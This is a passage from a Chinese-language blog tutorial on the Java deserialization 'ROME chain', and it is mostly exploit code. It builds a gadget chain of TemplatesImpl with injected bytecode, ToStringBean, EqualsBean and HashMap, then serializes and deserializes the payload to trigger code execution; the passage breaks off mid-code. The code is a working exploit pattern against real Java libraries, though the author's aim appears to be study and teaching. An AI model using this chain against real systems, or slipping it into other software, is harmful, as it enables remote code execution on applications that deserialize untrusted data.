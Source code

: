 ```
    }  
  
    public static void setFieldValue(Object object, String fieldName, Object value) throws Exception {  
        Class clazz = object.getClass();  
        Field field = clazz.getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(object,value);  
    }  
}
```

![img](https://drun1baby.top/2022/10/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BROME%E9%93%BE/ToStringBeanInvoke.png)

这里有点坑，一开始脑子里想的都是调用 `toString(String)`，后来发现这是个 private 调用不了，要用 `toString()` 普通的这个去触发。

继续往下走，写 EXP

JAVA

```
ToStringBean toStringBean = new ToStringBean(c,templates);    
 Class toStringBeanEvil = toStringBean.getClass();  
EqualsBean equalsBean = new EqualsBean(toStringBeanEvil,toStringBean);  
equalsBean.beanHashCode();
```

![img](https://drun1baby.top/2022/10/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BROME%E9%93%BE/EqualsBeanCalc.png)

再往下，是 HashMap，我就直接尝试构造完整的 EXP 了

JAVA

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import com.sun.syndication.feed.impl.EqualsBean;  
import com.sun.syndication.feed.impl.ToStringBean;  
import javassist.ClassPool;  
import javassist.CtClass;  
import javassist.CtConstructor;  
  
import java.io.*;  
import java.lang.reflect.Field;  
import java.util.HashMap;  
  
public class RomEXP {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templates = new TemplatesImpl();  
        setFieldValue(templates,"_name","Drunkbaby");  
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());  
        Class c = templates.getClass();  
        Field byteCodesField = c.getDeclaredField("_bytecodes");  
        byteCodesField.setAccessible(true);  
        byte[] evil = getTemplatesImpl("Calc");  
        byte[][] codes = {evil};  
        byteCodesField.set(templates,codes);  
//        templates.newTransformer();  
 		ToStringBean toStringBean = new ToStringBean(c,templates);  
//        toStringBean.toString();  
 		Class toStringBeanEvil = toStringBean.getClass();  
        EqualsBean equalsBean = new EqualsBean(toStringBeanEvil,toStringBean);  
        HashMap hashMap = new HashMap();  
        hashMap.put(equalsBean,"Drunkbaby");  
        serialize(hashMap);  
        unserialize("ser.bin");  
```